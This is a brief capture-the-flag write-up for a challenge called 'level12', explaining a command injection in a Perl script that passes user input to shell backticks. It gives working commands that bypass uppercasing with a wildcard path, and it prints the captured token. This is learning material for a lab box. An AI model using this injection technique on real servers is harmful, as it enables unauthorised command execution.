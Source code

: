 # level12

The home directory only contains `level12.pl`

The program uses backticks to evaluate a shell script that contains user input.

We can exploit this and evaluate the code contained in the `$xx` variable.

But it contains regexes that delete everything after a space & make everything uppercase (x="`getflag>/tmp/token`" -> x="`GETFLAG>/TMP/TOKEN`").

```bash
echo 'getflag > /tmp/flag' > /tmp/SCRIPT
chmod +x /tmp/SCRIPT
curl 'localhost:4646?x="`/*/script`"' # We use a wildcard because /tmp would become /TMP
cat /tmp/flag
# Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
